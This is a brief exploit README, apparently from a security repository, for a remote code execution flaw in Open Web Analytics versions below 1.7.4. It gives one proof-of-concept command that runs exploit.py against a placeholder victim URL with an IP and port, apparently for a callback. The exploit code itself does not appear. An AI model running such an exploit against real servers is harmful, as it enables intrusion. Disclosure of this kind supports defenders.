 # Open Web Analytics 1.7.3 - Remote Code Execution (RCE)

## 受影响版本
Version: <1.7.4

## POC

```bash
python exploit.py  https://victim.xyz:8000/ 8.8.8.8 8000
```